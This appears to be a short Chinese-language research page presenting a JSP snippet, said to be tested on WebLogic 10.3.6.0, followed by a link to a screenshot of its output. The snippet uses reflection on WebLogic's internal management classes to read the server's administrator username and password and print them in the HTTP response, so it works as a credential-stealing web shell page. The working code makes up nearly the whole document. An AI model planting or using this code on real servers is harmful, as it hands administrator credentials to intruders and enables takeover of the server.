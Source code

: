 代码实现

> ```jsp
> <%@page import="java.lang.reflect.Field" %>
> <%@page import="java.lang.reflect.Method" %>
> 
> <%
>   /**
>    * 已测试：
>    *  10.3.6.0
>    */
>   try{
>     ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
>     Class httpDataTransferHandler = classLoader.loadClass("weblogic.deploy.service.datatransferhandlers.HttpDataTransferHandler");
>     Class managementService = classLoader.loadClass("weblogic.management.provider.ManagementService");
>     Class authenticatedSubject = classLoader.loadClass("weblogic.security.acl.internal.AuthenticatedSubject");
>     Class propertyService = classLoader.loadClass("weblogic.management.provider.PropertyService");
>     Field KERNE_ID = httpDataTransferHandler.getDeclaredField("KERNE_ID");
>     KERNE_ID.setAccessible(true);
>     Method getPropertyService = managementService.getMethod("getPropertyService",authenticatedSubject);
>     getPropertyService.setAccessible(true);
>     Object prop = getPropertyService.invoke((Object) null,KERNE_ID.get((Object) null));
>     Method getTimestamp1 = propertyService.getMethod("getTimestamp1");
>     getTimestamp1.setAccessible(true);
>     Method getTimestamp2 = propertyService.getMethod("getTimestamp2");
>     getTimestamp2.setAccessible(true);
>     String username = (String) getTimestamp1.invoke(prop);
>     String password = (String) getTimestamp2.invoke(prop);
>     response.getWriter().write( username + "/" + password);
>   }catch (Exception e) {
>     e.printStackTrace();
>   }
> %>
> ```

测试效果

![image](vulnerability-research.assets/144720974-59cb9fd5-65df-4dae-a9f8-fd103719f499.png)

